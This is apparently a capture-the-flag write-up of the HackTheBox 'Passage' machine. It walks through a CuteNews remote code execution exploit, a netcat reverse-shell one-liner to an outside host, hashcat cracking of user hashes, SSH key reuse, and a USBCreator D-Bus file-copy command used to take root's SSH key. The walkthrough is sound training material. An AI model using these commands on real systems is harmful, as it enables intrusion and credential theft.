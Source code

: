 ```yaml
---
title: "HackTheBox - Passage"
author: Nasrallah
description: ""
date: 2023-05-15 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, medium, rce, hashcat, crack]
img_path: /assets/img/hackthebox/machines/passage
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Passage](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

![](0.png)

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.206
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17eb9e23ea23b6b1bcc64fdb98d3d4a1 (RSA)
|   256 71645150c37f184703983e5eb81019fc (ECDSA)
|_  256 fd562af8d060a7f1a0a147a438d6a8a1 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Passage News
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found just two ports, 22 and 80.

### Web

Let's check the web page.

![](1.png)

The page is powered by `CuteNews` and the copyright is from 2020.

Let's check if there is any exploits in this CMS.

![](2.png)

We found a RCE exploit. let's download it [here](https://www.exploit-db.com/exploits/48800).

## **Foothold**

It's time to run the exploit.`python3 exploit.py`

```terminal
$ python3 exploit.py                                                                                                                                     
                                                                                                                                                              
                                                                                                                                                              
                                                                                                                                                              
           _____     __      _  __                     ___   ___  ___                                                                                         
          / ___/_ __/ /____ / |/ /__ _    _____       |_  | <  / |_  |                                                                                        
         / /__/ // / __/ -_)    / -_) |/|/ (_-<      / __/_ / / / __/                                                                                         
         \___/\_,_/\__/\__/_/|_/\__/|__,__/___/     /____(_)_(_)____/                                                                                         
                                ___  _________                                                                                                                
                               / _ \/ ___/ __/                                                                                                                
                              / , _/ /__/ _/                                                                                                                  
                             /_/|_|\___/___/                                                                                                                  
                                                                                                                                                              

                                                                                                                                                    

[->] Usage python3 expoit.py

Enter the URL> http://10.10.10.206/
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc
================================================================

=============================
Registering a users
=============================
[+] Registration successful with username: HiRzNzxLLn and password: HiRzNzxLLn

=======================================================
Sending Payload
=======================================================
signature_key: dda213e56a87edc81ebf48f5186f8a60-HiRzNzxLLn
signature_dsi: aabd7308915e904c7367a7e357bc88d6
logged in user: HiRzNzxLLn
============================
Dropping to a SHELL
============================

command > id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

Great! We got some user hashes and command execution as `www-data`, now let's get a proper reverse shell.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```

![](3.png)

## **Privilege Escalation**

### www-data --> paul

#### hashcat

The exploit gave us some SHA256 hashes so let's try cracking them with `hashcat` mode 1400 

```terminal
$ hashcat -m 1400 hashes.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...
                                       
OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5 CPU       M 520  @ 2.40GHz, 2726/2790 MB (1024 MB allocatable), 4MCU

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd:atlanta1
Approaching final keyspace - workload adjusted.  

                                                 
Session..........: hashcat
Status...........: Exhausted
Hash.Name........: SHA2-256
Hash.Target......: hashes.txt
Time.Started.....: Thu May 18 10:30:23 2023 (10 secs)
Time.Estimated...: Thu May 18 10:30:33 2023 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1469.4 kH/s (1.39ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 1/5 (20.00%) Digests
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 0/14344385 (0.00%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: $HEX[206b72697374656e616e6e65] -> $HEX[042a0337c2a156616d6f732103]
```

We got a password, now let's see what user's are on the box.

```terminal
www-data@passage:/var/www/html/CuteNews/uploads$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
nadav:x:1000:1000:Nadav,,,:/home/nadav:/bin/bash
paul:x:1001:1001:Paul Coles,,,:/home/paul:/bin/bash
```

We found `paul` and `nadav`, let's use the password and see if we can switch to any of them.

![](4.png)

Great! That was `paul`'s password.

### paul --> nadav

On `paul`'s home directory we find a `.ssh` directory with a private key.

![](5.png)

One thing to notice is the on `authorized_keys` we find `nadav`'s public key, and same with `id_rsa.pub`. The question is are they using the same keys?!.

Let's test it.

![](6.png)

They are using the same key, now we have access to both users.

### nadav --> root

Now let's run `linpeas`

![](7.png)

The script told us that USBCreator is vulnerable and provided us with a [link](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/d-bus-enumeration-and-command-injection-privilege-escalation#gui-enumeration) that talks about the vulnerability, but didn't find a way to exploit it.

I searched on google for `USBCreator privesc` and found this [article](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/) that provides us with a POC that allows us to copy files.

```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /source/file /destination/file true
```

We can use that to get `root.txt`.

![](8.png)

To get a root shell, we can try grabbing the root private ssh key.

![](9.png)

Now we use the key to ssh as root.

![](10.png)


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).